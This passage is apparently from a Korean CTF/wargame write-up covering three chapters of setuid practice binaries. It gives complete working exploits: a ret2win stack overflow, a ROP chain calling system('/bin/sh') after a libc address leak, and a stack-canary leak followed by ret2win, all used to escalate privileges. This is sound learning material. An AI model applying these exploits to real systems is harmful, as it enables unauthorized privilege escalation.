- 리턴 주소 = **`ebp+4`** (32비트 환경)

```
ebp+4   →  리턴 주소        <- 여기를 shell()로 덮을 예정
ebp+0   →  저장된 ebp (4B)
ebp-4   →  저장된 ebx (4B)   ┐
...                          │ 이 24바이트(0x18) 안을 password로 채움
ebp-0x18 → password[0]       ┘
```

`password[24] + ebp[4] → 28` 즉, RET까지의 거리는 28.

#### (2-1) 주소를 거꾸로(리틀 엔디안)

x86은 **리틀엔디안**: 여러 바이트 값을 **낮은 바이트부터** 메모리에 저장한다.
`shell()` 주소 `0x080491a6`를 메모리에 올리면 바이트 순서가:

```
낮은 주소 → 높은 주소
a6  91  04  08
```

CPU가 리턴 주소 4바이트를 읽을 때 이 순서를 다시 `0x080491a6`으로 만든다. 그래서 **입력에 쓸 때도 `\xa6\x91\x04\x08` 순서**로 넣어야 CPU가 올바른 주소로 복원한다.
→ pwntools `p32(0x080491a6)`가 이 변환을 자동으로 해준다. (난 그냥 sys 불러와서 거꾸로 기입했다. 굳이 pwntools 안써도 되는 문제이기 때문이다.)

#### (C) Vi 편집기 사용 불가



ch2에서 주입한 셸로는 vi같은 편집기를 열 수 없다. 그러므로, 공격을 파이프로 넣을 거다. 이 때, cat을 붙여줌으로써, stage3 셸의 stdin으로 자연스럽게 들어가게끔 만들어주는 것이다. (그래야 셸을 얻고 명령어를 입력할 수 있다.)

```python
현재 셸 상황
[ Ch2. 익스 셸 ] ──파이프──> [ pwntools ] ──> 지금 화면
            (TTY 아님)
```

```bash
(python3 -c '...페이로드...'; cat) | ./stage3
```

- `python3 -c`가 페이로드를 뱉고 끝나면, 그 파이프는 **EOF(입력 끝)**가 된다.
- 그런데 `shell()`이 띄운 `/bin/sh`는 **stdin에서 명령을 읽으려 한다.** stdin이 이미 EOF면 셸은 읽을 게 없어으므로 **즉시 종료된다.** → 명령어 입력 못함.
- `; cat`을 붙이면: python이 페이로드를 보낸 뒤 **`cat`이 내 키보드(터미널)를 읽어 파이프로 계속 흘려보낸다** → 띄워진 셸이 내 입력을 받는다 → 명령어(id, ls) 입력 가능.

---

### 3. 주소 확인

`objdump`로 `shell()` 주소를 그냥 읽는다 (No PIE라 주소 고정되어있어서 하드코딩이 가능하다.)

```bash
objdump -d stage3 | grep '<shell>:'
```



→ **shell() = 0x080491a6**. 리틀엔디안으로 `\xa6\x91\x04\x08`.

> stage3는 setuid라 gdb로 동적분석이 불가능하지만, objdump은 가능하다 — 실행이 아니라 파일을 읽는 거라 권한이 무관하다
> 

---

### 4. 최종 Exploit 코드

stage3가 Breaking 홈에 있으니 Breaking 셸에서 파이프로 실행

```bash
(python3 -c 'import sys; sys.stdout.buffer.write(b"5\n" + b"A"*28 + b"\xa6\x91\x04\x08" + b"\n")'; cat) | /home/Breaking_Through_for_Survival/stage3
```

| 부분 | 의미 |
| --- | --- |
| `b"5\n"` | 메뉴 [5] Open Door 선택 (`scanf("%d")`에 5) |
| `b"A"*28` | 패딩 (오프셋 28, 리턴 주소 직전까지) |
| `b"\xa6\x91\x04\x08"` | `shell()` 주소 0x080491a6 (리틀엔디안) → 리턴 주소 덮기 |
| `; cat` | 띄워진 `/bin/sh`에 stdin 계속 연결 |



`5번 입력 후 Open_Door` → password에 `A*28 + shell주소` → `Open_Door`가 `ret` → `shell()` → `system("/bin/sh")` → 셸 획득 

(셸이 불안정해서 줄 편집기가 제대로 작동 안한다…)

---

### 5. Ch.3 Clear

##### id 확인

```
$ id
uid=504(Scavening_for_Survival) gid=502(Decoding_for_Escape)
```

`uid=504(Scavening_for_Survival)` **다음 유저(Scavening)로 권한 상승 성공 → Ch.3 클리어**.

이번엔 권한 드랍이 안 일어났다**.** Ch.2에선 `/bin/sh`가 euid를 떨궈서 `setreuid`로 막았는데, Ch.3의 `shell()`은 `system("/bin/sh")`를 쓰는데도 `id`가 그대로 Scavening(504)으로 나왔다. (드랍 여부는 환경/셸 설정에 따라 다르다 **ret2win 후엔 항상 `id`로 확인**하자)

---

#### 6. 부록

이중셸로 인한 불편함?을 나중에 해결하게 됐는데, 덕분에 pwntools로 아래와 같은 explolit 코드를 만들 수 있었다. 로직은 위와 동일하다.

```python
from pwn import *
context.arch = 'i386'
context.log_level = 'debug'       # 혹시 막히면 디버깅 하기 위한 목적으로 넣어둠
exe = '/home/Breaking_Through_for_Survival/stage3'
e = ELF(exe)
p = process(exe)
shell = e.sym['shell']

p.sendlineafter(b'Close Door', b'5')      # 메뉴 다 뜬 뒤 5 선택
payload = b'A'*28 + p32(shell)
p.sendline(payload)                        # Open Door 입력칸에 payload
p.interactive()
```



status 명령어 사용하면 그냥 pw가 쉽게 나온다. (ch2 부록 참고)

[↑ 챕터 목록](#chapter-index)


## Ch. 4

> `read()` 오버플로우(NX 때문에 셸코드 실행 불가) → **ROP 체인**으로 `system("/bin/sh")` 호출. libc는 **유출(&read)로 주소 계산**. → 셸 획득
> 

---

#### 0. 셸 문제 해결

Ch2에서 주입했던 셸을 Ch4까지 끌고와서 사용하려니, 계속해서 셸이 중첩되어 사용에 불편함이 컸다.

이게 아무래도 파이프에 물린 TTY가 없는 셸이다 보니, 불편함은 계속됐다. (vi 같은 편집기를 사용하지도 못하고, 페이로드 입력이 끝나면 EOF로 셸이 죽어버리거나 입력할 때 화면에 겹쳐 그려지는 노이즈도 너무 심함…)

이 문제를 해결하기 위해 ch2 익스플로잇 코드를 stdin=PTY 기반으로 수정하였다. 하지만, 해결이 되지 않아 헤매다가 깃허브 페이지에서 우연히 커스텀 명령어 status를 발견했고, status 사용을 통해 이중셸 문제를 해결할 수 있었다.

(ch.2 라이트업 > 부록 참고[ch2.라이트업 링크 걸기])

---

#### 1. 대상 분석

##### 1-1. 코드 분석

```c
int main(){
    int select;
    char buf[0x40] = {};             // 64바이트 버퍼
    ...
    scanf("%d", &select);
    else if(select == 2){
        printf("Address of freezer warehouse : %p\n", &read);  // ← libc 유출
        read(0, buf, 0x400);         // ← buf 크기보다 많이 읽으므로 오버플로우 공격 가능
    }
    write(1, buf, sizeof(buf));
    return 0;
}

char MasterKey[16] = "/bin/sh";      // ← "/bin/sh" 문자열이 존재
void gadget(){                        // ← ROP 가젯 모음이 gadget() 로 존재
    asm("pop %rdi; ret");
    asm("pop %rsi; pop %r15; ret");
    asm("pop %rdx; ret");
}
```

- **취약점**: `read(0, buf, 0x400)` — 64바이트 버퍼에 1024바이트 → 스택 오버플로우. (2번 메뉴를 선택해야 한다.)
- `gadget()` - `pop rdi; ret` 같은 ROP 가젯 존재
- `MasterKey` - `/bin/sh` 문자열 존재
- `&read` 유출 - libc의 실제 위치를 알려줌 (ASLR 우회용).

##### 1-2. 보호기법 (checksec)



**64bit 환경 +** **NX라 셸코드 실행 불가 + No PIE라 바이너리 주소 고정 + libc 유출 있음**

---

#### 2. 익스플로잇 아이디어

##### ROP gadget Chain

**NX가 켜져 있으므로 스택에 올린 셸코드를 실행 못 한다** (Ch.2 방식 불가). 그래서 코드를 넣는 대신 **이미 있는 코드 조각(가젯)을 이어붙여** 원하는 동작을 만든다(ROP Chain). 

> 
> 
> - **가젯**
>     - `pop rdi; ret`처럼 짧게 동작하고 `ret`으로 끝나는 코드 조각.
> - **ROP 원리**
>     - 스택에 `[가젯주소][값][다음 가젯주소] …`를 쌓아두면, `ret`이 스택에서 **다음 주소를 꺼내 점프 → 가젯 실행 → 그 가젯 끝의 `ret`이 또 다음 주소로 점프…** 이렇게 가젯을 **이어서** 실행한다.
> - **ROP 사용 이유**
>     
>     NX가 켜지면 **스택의 코드를 실행할 수 없어** 스택에 넣은 쉘코드 실행이 막힌다. 그래서 **이미 실행 가능한 영역(libc/.text)의 코드 조각을 재사용**하는 것이 ROP다.
>     
>     → 스택엔 **”실행할 코드"가 아니라 "점프할 주소(데이터)**"만 올리고, 실제 실행은 libc/.text에서 일어나므로 **NX 영향을 받지 않는다**(스택은 `ret`·함수가 데이터로 읽을 뿐이다)**.** 
>     
> - **32비트 vs 64비트**
>     
>     함수를 호출하려면 인자를 넘겨야 하는데, 환경 별로 방식이 다르다:
>     
>     - **32비트**: 인자를 **스택**으로 넘긴다 → `[함수주소][리턴주소][인자]`를 쌓으면 함수가 알아서 읽는다. **인자용 가젯이 불필요하다.**
>     - **64비트**: 인자를 **레지스터**로 넘긴다(rdi=1번째). `system("/bin/sh")`를 부르려면 rdi에 `"/bin/sh"` 주소를 넣어야 하고, 스택의 값을 rdi에 옮기는 **`pop rdi; ret` 가젯이 필요**하다.

##### 전체 계획

```
1) 메뉴 2 선택 →  유출된 &read 확인
2) libc_base = 유출된_read - (libc의 read 오프셋)
   system    = libc_base + (libc의 system 오프셋)
3) read() 오버플로우로 리턴 주소부터 ROP Chain:
     [ 패딩 ]
     [ pop rdi; ret ]
     [ MasterKey("/bin/sh") ]
     [ ret (정렬용) ]
     [ system ]
4) → system("/bin/sh") → 셸 획득
```

> **ret 중간에 껴 넣은 이유**
64비트는 `call` 시점에 rsp가 **16의 배수**여야 하는데, `system` 내부 `movaps`가 정렬 안 맞으면 크래시한다. ROP는 8바이트 단위라 rsp가 **16의 배수에서 8 어긋나기(예: 24) 쉽다.** 그래서 하는 일 없는 `ret` 하나를 끼워 **rsp를 8 밀어 24→32처럼 16의 배수로** 되돌린다(32비트엔 불필요).
> 

---

#### 3. 필요한 정보 확인

##### 3-1. 오프셋 (buf → 리턴 주소) = 88

```python
gdb -q ./stage4
pwndbg> disass main
pwndbg> pipe disass main | grep -iE 'rbp|read|lea'
```



##### rbp, read, lea 확인하는 이유

**`lea` → 버퍼가 rbp에서 얼마나 떨어졌나**

```
lea rax,[rbp-0x50]     <- 입력 버퍼가 rbp-0x50 에 있다 (read함수 호출 전)
```

`lea`는 주소 계산이라, **버퍼의 위치(rbp 기준 오프셋)**가 드러난다. 

**`read` → 그 버퍼에 몇 바이트를 쓰나. 오버플로우 지점**

```
call read              -> 버퍼보다 크면 오버플로우
```

**취약한 입력 함수**가 어디서 얼마나 받는지 확인

**`rbp` → 프레임 구조 (리턴주소까지의 거리)**

리턴주소는 **`rbp+8`**(64비트), 저장된 rbp는 **`rbp+0`**. 그래서 **rbp가 기준**이 돼야 **버퍼 → 리턴주소** 오프셋(거리)을 측정할 수 있다.

##### 셋을 합치면 오프셋이 나온다

```
버퍼 = rbp-0x50 
리턴주소 = rbp+0x8
→ 버퍼에서 리턴주소까지 = 0x50 + 0x8 = 0x58 = 88바이트
```

> 버퍼 주소가 `lea`가 아니라 **`mov rax, rsp`** 같은 다른 방식으로 잡히면 `lea` 필터에 안 걸린다. disass main 후, 눈대중으로 훑어본 후 깔끔하게 보기 위해 위와같이 진행한 것이다.
> 

##### 3-2. pop rdi ; ret 가젯 = 0x401215

rdi(1번째 인자 레지스터)에 값을 넣기 위해 사용할 pop rdi; ret 가젯 주소를 확인한다. ROPgadget을 이용하면 가젯 주소를 아래와 같이 쉽게 구할 수 있다.

```bash
ROPgadget --binary ./stage4 | grep ': pop rdi ; ret'
```



**가젯 주소: 0x401215**

> 
> 
> 
> 아까 전(전체 계획 참조), 정렬용으로 쓰려는 ret를 여기에 위치한 ret로 재탕? 재활용? 할 수 있다.
> 
> ```python
> 0x401215:   5f(1바이트)       pop rdi   ← **점프** → 5f(pop rdi) 실행 → c3(ret) 실행 = **pop rdi; ret 전체**
> 0x401216:   c3(1바이트)       ret       ← **점프** → c3(ret) 하나만 실행 = **ret**
> ```
> 

##### 3-3. MasterKey ("/bin/sh") 주소 = 0x404050

rdi에 넣을 `"/bin/sh"` 문자열의 주소는 nm을 사용해, 아래와 같이 쉽게 구할 수 있다. 

```bash
nm ./stage4 | grep -i masterkey
```



D는 data섹션(초기화된 전역변수)을 의미한다. (**MasterKey라는 전역변수가 .data(0x404050)에 있다**는 뜻)



물론 위와같이 objdump -t 로도 확인이 가능하기는 하나, 심볼이 명확하면 nm으로 확인하는게 훨씬 깔끔하다.

##### 3-4. libc 경로 = /lib/x86_64-linux-gnu/libc.so.6

`read`/`system`의 오프셋을 얻어, 유출된 &read에서  libc 베이스를 역산하고 system을 계산하기 위해 확인한다.

```bash
ldd ./stage4
```

`ldd` = 이 프로그램이 쓰는 공유 라이브러리 목록 출력



```
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7d8a000)
```

1. **ldd로 ./stage4가 실제로 사용하는 libc 파일"을 확인했다** → `/lib/x86_64-linux-gnu/libc.so.6`. (버전·위치 확인)
2. **그 파일을 그대로 `ELF('/lib/x86_64-linux-gnu/libc.so.6')`로 불러온다** → pwntools가 그 libc의 심볼 테이블을 읽는다.
3. **`libc.sym['read']`, `libc.sym['system']`으로 오프셋을 가져온다** 이것과 read함수 주소를 이용해 libc_base와 system 함수의 주소를 알아낼 수 있다.
    
    ```python
    [libc_base 주소] = [read 함수 주소] - [libc read 함수 오프셋]
    [system 함수 주소] = [libc_base 주소] + [libc system 함수 오프셋]
    
    내가 사용한 exploit 에서는 
    libc.address = leak - libc.sym['read'] 한 줄이 위를 대신하고, 
    그 뒤 libc.sym['system']이 자동으로 “system 실제주소”가 된다.
    ```
    

> 
> 
> 
> ### `libc.sym`는`libc.address`를 더해서 돌려준다
> 
> libc.sym이 돌려주는 값은 항상 **`파일오프셋 + libc.address`** 다.
> 
> - **처음엔 `libc.address = 0`** → `libc.sym['read']`는 **오프셋 그대로** 돌려준다.
> - **`libc.address`를 세팅하면** → pwntools가 **표 전체를 그만큼 밀어서**, 이후 모든 조회가 **오프셋+베이스 = 실제주소**로 바뀐다.

##### ROP 체인이 실행되는 그림

```
[ "A"*88 ]       ← 패딩 (리턴 주소 직전까지)
[ 0x401215 ]     ← pop rdi ; ret
[ 0x404050 ]     ← rdi에 들어갈 값 = "/bin/sh"
[ 0x401216 ]     ← ret (스택 16바이트 정렬용, system의 movaps crash 방지)
[ system ]       ← system("/bin/sh")
```

main의 `ret` 순간부터:

1. `0x401215`로 점프 → `pop rdi; ret` → 다음 값 `0x404050`을 rdi에 → rdi="/bin/sh"
2. `ret` → `0x401216`(ret) → 정렬만 하고 넘어감
3. `ret` → `system` → `system("/bin/sh")` 실행 → 셸 획득

---

#### 4. Exploit

```python
from pwn import *
context.arch = 'amd64'

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p    = process('./stage4')

### 1) 메뉴 2 → &read 유출
p.sendlineafter(b'Choose the display stand : ', b'2')
p.recvuntil(b'warehouse : ')
leak = int(p.recvline().strip(), 16)
libc.address = leak - libc.sym['read']          # 실제 libc 베이스 확정
log.success('libc base = %#x', libc.address)

### 2) ROP 체인
payload  = b'A'*88
payload += p64(0x401215) + p64(0x404050)        # pop rdi; ret  +  "/bin/sh"
payload += p64(0x401216)                         # ret (정렬)
payload += p64(libc.sym['system'])               # system (유출 기반)

p.sendlineafter(b'Please select the quantity of the item : ', payload)
p.interactive()
```



---

[↑ 챕터 목록](#chapter-index)


## Ch. 5

> 목표: setuid 바이너리 `ips`(소유자 = 다음 유저 `Crisis_at_the_Vault`)를 익스플로잇해서
그 유저 권한의 셸을 얻는다. → `uid=506(Crisis_at_the_Vault)` 획득.
> 

이 레벨의 한 줄 교훈:

> **가젯으로 `system`의 인자를 못 만든다는 걸 확정 → 그럼 바이너리가 이미 만들어 둔
`system("/bin/sh")` 호출부가 어딘가 있다 → 리턴주소를 거기로 돌린다 (ret2win).**
> 

---

#### 1. 대상 분석

##### 1-1. 코드 분석 (IPS)

프로그램은 "Bunker Control System"이고, `main`이 제일 먼저 `IPS()`로 인증을 받는다.
이번 문제의 취약점은 전부 이 `IPS()` 안에 있다. 

```c
int IPS() {
    char username[?];        // 스택: rbp-0x80
    char passwd[?];          // 스택: rbp-0x40
    long canary = fs:0x28;   // 스택: rbp-0x8  
    int  granted = 0;        // rbp-0x8c
    int  count   = 0;        // rbp-0x94

    char *auth = malloc(100);
    strcpy(auth, "admin");             // auth->username = "admin"
    generateRandomCode(auth + 0x32);   // auth->passwd  = 랜덤코드 

    while (count <= 2 && !granted) {
        print("...prompt...");
        read(0, username, 100);        // 버퍼는 작은데 100바이트를 읽음 -> 오버플로우
        username[strcspn(username,"\n")] = 0;

        read(0, passwd, 100);          // 여기서 오버플로우로 리턴주소까지 도달 가능
        passwd[strcspn(passwd,"\n")] = 0;

        printf("Your account: %s\n", username);   // %s 정보 유출 (카나리 leak에 사용)

        if (!strncmp(passwd, auth->passwd, 8) && !strncmp(username, auth->username, 8)) {
            granted = 1;
            puts("...success...");
            system("/bin/sh");          // 인증 성공 시 셸을 줌 — 0x401981
            return 0;
        }
        puts("Incorrect code. Try again.");
        count++;
    }
    // 3번 실패하면:
    puts("3 incorrect code attempts");
    for (int i = 30; i > 0; i--) { printf("...%d...", i); sleep(1); }  // 30초 카운트다운
    return -1;                          // 여기서 leave; ret -> 덮은 리턴주소로 점프
}
```

- **오버플로우**: 버퍼는 작은데 `read(0, buf, 100)`으로 100바이트를 받는다.
특히 `passwd`(rbp-0x40)에서 100바이트를 받으면 **카나리(rbp-0x8)와 리턴주소(rbp+0x8)까지
덮을 수 있다**.
- **leak 수단**: `printf("Your account: %s", username)`. `%s`는 **널 바이트를 만날 때까지**
메모리를 쭉 출력한다. 이걸로 카나리를 leak 할 수 있을 것이다.
- **Win 코드**: 인증에 성공하면 `system("/bin/sh")`를 호출한다. 정상적인 방법으로는 비번을 모르니 얻을 수 없지만, **오버플로우로 리턴주소를 이 지점으로 돌리면** 비번 없이 셸 획득이 가능하다.
- **리턴 타이밍**: 함수가 `ret`하는 건 "3번 실패 후"뿐이다 (성공은 비번을 모르니 불가).
그래서 **마지막(3번째) 시도에 오버플로우 payload를 심고**, 3번 실패 → 30초 대기 → `ret` →
우리가 덮은 주소로 점프, 이 순서가 된다.

##### 1-2. 보호기법 확인 (checksec)



- **Canary** → 리턴주소를 덮으려면 그 사이의 카나리를 원래 값으로 유지해야 한다 → **leak 필수**.
- **NX** → 스택에 쉘코드를 넣어 실행하는 건 불가 → **기존 코드 재사용**만 가능.
- **No PIE** → `0x401981`(승리 코드), `0x402576`("/bin/sh") 같은 주소가 **매 실행 고정** →
그냥 숫자로 박아 쓸 수 있다. 이게 ret2win을 가능하게 한 결정적 조건.
- **SHSTK(미강제)** → 만약 강제됐었다면 `ret`로 리턴주소를 바꾸는 순간 CPU가 "쉐도우 스택 불일치"로
실패.

---

#### 2. 익스플로잇 아이디어 RET2WIN

(사실 처음엔 win 코드를 못봐서, ret2libc로 진행하다가 계속 막혔었다. 코드 분석을 다시 하던 중 win 코드를 발견했다.) 

**2-1. strings — system·/bin/sh 존재 확인**

bash

```bash
strings ./ips | grep -iE '/bin|/sh|system'
```



→ `/bin/sh` 와 `system@GLIBC_2.2.5`(import됨) 둘 다 존재한다.

**2-2. nm — 숨은 win 함수 탐색**

bash

```bash
nm ./ips | grep -iw t
```



→ `IPS`, `main`, `performSystemCheck`, `printStatus` 등 함수 목록. (명백한 `shell`/`win`은 안보인다. 숨어져 있었기 때문)

**2-3. disass — 인증 성공 분기 직접 확인**`IPS`를 디스어셈블해서 **"granted=1 직후"**를 보니:

```nasm
401981:  lea  rax,[rip+0xbee]   # 402576   ; rax = "/bin/sh" 주소
401988:  mov  rdi,rax                       ; rdi = "/bin/sh" <-코드가 알아서 인자 세팅
40198b:  call 401150                        ; system("/bin/sh")
```

> `objdump -d ./ips | grep 'call.*<system'`은 아무것도 안 나왔다. objdump가 `call 401150`을
`<system@plt>`가 아니라 `<_init+0x150>`으로 라벨링해서 안 나온 것이다. 
실제`call 401150`이 system PLT진입점 즉 system()호출이다.
> 

##### 전체 익스플로잇 계획 (3번의 입력)

카나리를 넘어 리턴주소를 덮어야 하므로 카나리를 먼저 알아야 하고, 리턴은 "3번 실패" 후에만
일어난다. 

```
시도 1 (카나리 leak): printf %s가 카나리까지 leak 하도록 입력 배치 → 카나리 leak
시도 2 (아무거나 입력): 아무런 값 → 실패 카운트만 올림 (count=2)
시도 3 (오버플로우) : passwd = [56 더미][leak한 카나리][가짜 rbp][0x401981]
                     → 3번째 실패 → 루프 탈출 → 30초 카운트다운
                     → 카나리 검사 통과(복원했으니) → leave;ret → 0x401981 → system("/bin/sh")
```

---

#### 3. 필요한 정보 확인

##### 3-1. 오프셋 (passwd → 카나리 56 / 리턴 72)

`IPS`를 디스어셈블해서 버퍼·카나리·리턴주소의 rbp 기준 위치를 읽는다.

```bash
gdb -q ./ips -ex 'disass IPS' -ex quit | grep -iE 'rbp|read|lea|fs:0x28'
```

```nasm
mov  rax, QWORD PTR fs:0x28
mov  QWORD PTR [rbp-0x8], rax     ; 카나리 = rbp-0x8
lea  rax, [rbp-0x80]              ; username 버퍼 = rbp-0x80
lea  rax, [rbp-0x40]              ; passwd  버퍼 = rbp-0x40
```

계산:

```
카나리까지 = (rbp-0x8) - (rbp-0x40) = 0x38 = 56
리턴까지   = (rbp+0x8) - (rbp-0x40) = 0x48 = 72
```

**확인 결과, 카나리 도달 offset은 56, 리턴 도달 offset 72이다.** 

##### 3-2. WIN 호출부 = 0x401981

바이너리에 이미 있는 `system("/bin/sh")` 호출부. `IPS` 디스어셈블에서 `lea [binsh]; mov rdi,rax; call system` 3줄을 찾는다(2-2 참조).

```bash
gdb -q ./ips -ex 'disass IPS' -ex quit | grep -A2 '402576'
```

```nasm
401981:  lea  rax,[rip+0xbee]   # 402576   ← 여기로 리턴주소를 돌린다
401988:  mov  rdi,rax
40198b:  call 401150
```

→ **WIN = 0x401981.** (리턴주소를 이 값으로 덮으면 system("/bin/sh") 실행한다.)

##### 3-3. 카나리 leak

`username`(rbp-0x80)과 `passwd`(rbp-0x40)는 **딱 붙어 있다**(64바이트 간격). `printf`는 `username`
부터 **널을 만날 때까지** 출력한다. 그래서 둘 다 널 없이 채우고, **카나리 최하위 바이트(원래
0x00)를 0x01로 덮어** `%s`가 카나리까지 넘어가게 만든다.

> 리눅스 스택 카나리는 8바이트인데 **최하위 바이트(byte0)가 항상 널(0x00)** 이다.  문자열 함수(`%s`, `strcpy` 등)는 널에서 멈추므로, 이를 이용해 카나리를 문자열로 유출/복사하려 해도 **바이트0의 널에 막히게 만들어 유출/복사 할 수 없게끔 하기 위해 스택 카나리의 최하위 바이트는 항상 널값이다. 
그래서, 이 카나리를 알아내기 위해 널값(0x00)을 0x01로 덮는것이다.**
> 
- `username = 'A'*64` → rbp-0x80 ~ rbp-0x40 을 'A'로 채운다(NULL 없음)
- `passwd = 'B'*56 + '\x01'` → rbp-0x40 ~ rbp-0x8 을 'B'로 채우고, **57번째 바이트가
카나리[0]에 0x01을 덮어쓴다.**

그러면 `%s` 출력 = `AAAA…(64) BBBB…(56) \x01 [카나리 1~7바이트]` 

```
leak:   A×64        B×56       \x01   canary[1..7]  ...(saved rbp 하위바이트)...
index:  0 ───── 63  64 ──── 119  120   121 ─── 127
```

카나리는 8바이트인데 바이트0은 항상 0x00이므로, **leak된 1~7바이트 앞에 0x00을 붙이면** 복원된다. 쉽게 말해, 맨 처음 글자인 0을 제외한 뒤의 카나리값이 구해진다.

```python
canary = u64(b'\x00' + leak_bytes[121:128])
```

(121 = 64 + 56 + 1 = 'A'64 + 'B'56 + '\x01' 다음)

실제 실행: `canary = 0xbe9d330991c84a00` (끝 `00` = 바이트0. 리틀엔디안 고려하면 정상이다. 물론 이 카나리 값은 매번 바뀐다. 그러므로 카나리를 leak할 수 있는 로직을 익스플로잇 코드에 녹여내야한다).

> **leak 길이 < 128이면 재실행 유도**
카나리 1~7바이트 중 하나가 만약 `0x00`이면 `%s`가 거기서 끊겨 leak이 특정 부분에서 끊긴다.
이를 방지하기 위해 재실행을 유도한다.
> 

---

#### 4. 최종 Exploit

```python
from pwn import *
import time

e = ELF('./ips', checksec=False)
context.arch = 'amd64'
context.log_level = 'info'

WIN = 0x401981           # lea rax,[/bin/sh] ; mov rdi,rax ; call system

p = process('./ips')
p.recvrepeat(1.0)        # 시작 배너 비우기

def attempt(user, pw, sep=0.5):
    p.send(user)         # username만 먼저 보냄 -> 첫 read(username)에만 들어가게끔
    time.sleep(sep)      # 두 read() 를 시간차로 분리
    p.send(pw)

### 1) 카나리 leak
attempt(b'A'*64, b'B'*56 + b'\x01')
p.recvuntil(b'Your account: ')
data = p.recvline()
canary = u64(b'\x00' + data[121:128])
log.success('canary = %#018x' % canary)

### 2) 실패 1회 소모 (count -> 2)
attempt(b'A', b'A')
p.recvuntil(b'Your account: '); p.recvline()

### 3) 오버플로우 -> ret2win
payload  = b'A'*56           # passwd[0..55]
payload += p64(canary)       # [rbp-0x8]  카나리 복원
payload += b'A'*8            # [rbp+0x0]  saved rbp (아무 8바이트, system이 곧 덮음)
payload += p64(WIN)          # [rbp+0x8]  리턴주소 → system("/bin/sh")
attempt(b'A', payload)

p.interactive()              # 30초 카운트다운 후 셸(IPS 3번 틀렸으므로)
```

##### Exploit 구조

```
[ 'A' x 56 ][ p64(canary) ][ p64('A' x 8) ][ p64(0x401981) ]
   56바이트      8 (rbp-0x8)     8 (rbp+0x0)      8 (rbp+0x8=리턴)
= 총 80바이트  (read 한도 100 안에 들어감)
```

